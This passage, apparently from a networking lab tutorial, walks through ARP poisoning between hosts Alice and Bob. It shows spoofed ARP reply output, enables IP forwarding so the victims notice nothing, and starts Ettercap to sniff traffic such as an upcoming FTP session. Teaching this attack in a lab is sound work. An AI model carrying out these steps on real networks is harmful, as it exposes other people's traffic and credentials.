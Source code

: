 in another.

Here, Mallory sends ARP messages to Alice (192.168.0.3) that make Alice believe that Bob (192.168.0.4) is located at Mallory's MAC access. Mallory also sends ARP messages to Bob to that make Bob believe that Alice is located at Mallory's MAC address.

You should see output on the terminal indicating that Mallory is sending gratuitous ARPs. For example:

<pre>
0:c:42:3a:c4:77 0:c:42:3a:b4:8 0806 42: <b>arp reply 192.168.0.3 is-at 0:c:42:3a:c4:77</b>
</pre>

These ARP replies will continue to appear at regular intervals.

Also, if Alice runs

```
arp -a
```

we can see that Alice believes that Bob is at Mallory's MAC address, e.g.:

<pre>
? (192.168.0.4) at <b>00:0c:42:3a:c4:77</b> [ether] on wlan0
</pre>

and if we run

```
arp -a
```

on Bob, we'll see that he believes _Alice_ is at Mallory's MAC address, e.g.:

<pre>
? (192.168.0.3) at <b>00:0c:42:3a:c4:77</b> [ether] on wlan0
</pre>

Since the ARP poisoning has been successful, Mallory will now receive traffic destined for  Alice and Bob, and can look at it or modify it before passing it on to its intended destination. 

Mallory also needs to enable packet forwarding, so that Alice and Bob's traffic will be forwarded to each other through her and they won't notice any disruption. In the third Mallory terminal, run

```
sysctl -w net.ipv4.ip_forward=1
```

to enable packet forwarding. 

Then, start the [Ettercap](https://ettercap.github.io/ettercap/) packet interceptor/sniffer:

```
ettercap -T -i wlan0
```

Any interesting traffic passing between Alice and Bob (passing through Mallory) will appear in the Ettercap output. 

Alice is ready to start an FTP session, in which she connects to Bob. On Alice, run
